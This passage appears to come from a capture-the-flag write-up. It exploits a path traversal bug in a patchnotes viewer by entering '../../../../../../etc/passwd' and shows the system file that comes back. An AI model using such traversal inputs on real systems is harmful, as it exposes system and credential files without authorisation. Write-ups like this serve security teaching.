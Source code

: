Choosing the *service access* will prompt you with a password input. Selecting option 2 will list recent version updates and asks you which version you would like detailed information about. These patchnotes yield promising information:

>\# Release 0.2
> - Updated library X to version 0.Y
> - Fixed path traversal bug
> - Improved the UX

>\# Version 0.3
> - Rollback of version 0.2 because of random reasons
> - Blah Blah
> - Fix random reboots at 2:32 every second Friday when it's new-moon.

Apparently a *path traversal bug* exists in the software!

Selecting a random file in the second menu gives a generic error message:
```
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
random_file
Error: No such file or directory
```

Let's try out some files which should be present on a typical linux system:
```
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
/etc/passwd
Error: No such file or directory
```

Sadly this did not succeed. However maybe only relative paths are possible?
```
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
user:x:1337:1337::/home/user:
```